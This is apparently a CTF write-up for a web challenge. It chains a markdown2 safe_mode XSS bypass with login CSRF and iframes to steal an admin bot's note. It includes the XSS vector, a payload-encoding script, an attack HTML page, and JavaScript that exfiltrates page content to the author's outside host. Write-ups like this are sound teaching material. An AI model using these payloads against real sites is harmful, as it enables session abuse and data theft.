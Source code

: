 # Notes App (Web, 488p)

For this task, a very simple Python application and its source code is provided.

[Sources](sources/)

## Analysis

![main app](images/main.png)

The application let us register, login, submit a link and edit a single field "note" that will be displayed on `/profile`.

The application code is pretty straightforward and allow us to insert markdown on our own profile page.

The python code responsible of markdown rendering (md2html) is the following:

```python
@app.route("/update_notes", methods=["POST"])
@login_required
def update_notes():
    # markdown support!!
    current_user.notes = markdown2.markdown(request.form.get("notes"), safe_mode=True)
    db.session.commit()
    return redirect("/profile")
```

Looking in the `requirements.txt` shows us that this is the latest version of `markdown2`:

```
markdown2==2.3.8
```

However, I found this github issue: [github issue # 341](https://github.com/trentm/python-markdown2/issues/341)

A possible injection is demonstrated:

```markdown
<http://g<!s://q?<!-<[<script>alert(1);/\*](http://g)->a><http://g<!s://g.c?<!-<[a\\*/</script>alert(1);/\*](http://g)->a>
```

This will be rendered as:

```html
<p><http://g<!s://q?<!-&lt;<a href="http://g"><script>alert(1);/*</a>->a><http://g<!s://g.c?<!-&lt;<a href="http://g">a\\*/</script>alert(1);/*</a>->a></p>
```

Then, I tried that on my profile page and it worked.

This should be a good entrypoint to our exploitation steps.

## Exploitation

Having a working payload is cool, but remember that the payload is reflected on the `/profile` page so we are not going to be able to send this link to the admin.

By the way, the admin uses this code to access our page:

```python

async def main(url):
    browser = await launch(headless=True,
                           executablePath="/usr/bin/chromium-browser",
                           args=['--no-sandbox', '--disable-gpu'])
    page = await browser.newPage()
    await page.goto("https://notes.web.byteband.it/login")
    await page.type("input[name='username']", "admin")
    await page.type("input[name='password']", os.environ.get("ADMIN_PASS"))
    await asyncio.wait([
        page.click('button'),
        page.waitForNavigation(),
    ])
    await page.goto(url)
    await browser.close()
```

First, he authenticates himself on the application, and then access the URL provided.

Also, an other important thing to notice is that the `/login` endpoint accepts GET and hasn't any check on the HTTP verb used:

```python
@app.route("/login", methods=["GET", "POST"]) # Accepts GET and POST
def login():

    # Redirect the user if he is already authenticated.
    if current_user.is_authenticated:
        return redirect("/profile")

    if request.args.get("username"):
        id = request.args.get("username")
        password = request.args.get("password")
        user = User.query.filter_by(id=id).first()
        if user and user.check_password(password=password):
            login_user(user)
            return redirect("/profile")

        flash("Incorrect creds")
        return redirect("/login")
    return render_template("login.html")
```

So, here is our strategy:

Send to the admin, a page containing 3 iframes:

1. The first one will point to the `/profile` page
2. The second one will point to the `/logout` page after the first one rendered (Used to logout the admin before we access `/login` for the third one)
3. The third one will point to our profile `https://notes.web.byteband.it/login?username=SakiiR&password=SakiiR` and execute arbitrary Javascript

The third iframe is the most important and will retrieve information from the parent iframe pointing to `/profile` to retrieve the admin note.

Before triggering the admin on this custom hosted page, we have to host script on our profile page.

To do that, I used a simple script reading arbitrary Javascript and "converting" it into a markdown2 payload:

```python
#!/usr/bin/env python3
# @SakiiR

import base64
from urllib.parse import quote_plus as urlencode


def main():
    content = ""
    with open("payload.js", "rb") as f:
        content = base64.b64encode(f.read()).decode()
        f.close()

    payload = urlencode(content)
    print(
        f"%3Chttp%3A%2F%2Fg%3C%21s%3A%2F%2Fq%3F%3C%21-%3C%5B%3Cscript%3Eeval%28atob%28%27{payload}%27%29%29%3B%2F%5C*%5D%28http%3A%2F%2Fg%29-%3Ea%3E%3Chttp%3A%2F%2Fg%3C%21s%3A%2F%2Fg.c%3F%3C%21-%3C%5Ba%5C%5C*%2F%3C%2Fscript%3Eeval%28atob%28%27{payload}%27%29%29%3B%2F*%5D%28http%3A%2F%2Fg%29-%3Ea%3E"
    )


if __name__ == "__main__":
    main()
```

I also used this following Javascript file to retrieve the parent iframe content:

```js
let content = top.frames[0].document.documentElement.innerHTML;

content = btoa(content);
window.location.replace("http://sakiir.ovh:31337/?exfil=" + content);
```

The following HTML page has been hosted on `sakiir.ovh` to perform the iframe thing:

```html
<html>
  <head></head>
  <body>
    <iframe
      style="width: 100%;"
      id="aframe"
      src="https://notes.web.byteband.it/profile"
    ></iframe>
    <!-- First action, retrieve the admin /profile into the iframe -->

    <iframe style="width: 100%;" id="bframe" src=""></iframe>
    <iframe style="width: 100%;" id="cframe" src=""></iframe>

    <script>
      const a = document.getElementById("aframe");
      const b = document.getElementById("bframe");
      const c = document.getElementById("cframe");

      b.onload = () => {
        // Third action, login as me and get redirected on my own /profile containing Javascript retriving the **aframe** content
        c.src =
          "https://notes.web.byteband.it/login?username=SakiiR4&password=test";
      };

      // Second action, logout the admin so that he can login as me
      a.onload = () => {
        b.src = "https://notes.web.byteband.it/logout";
      };
    </script>
  </body>
</html>
```

Everything's ready, we send the link to the admin via the `/visit_link` endpoint and get the flag:

```
flag{ch41n_tHy_3Xploits_t0_w1n}
```
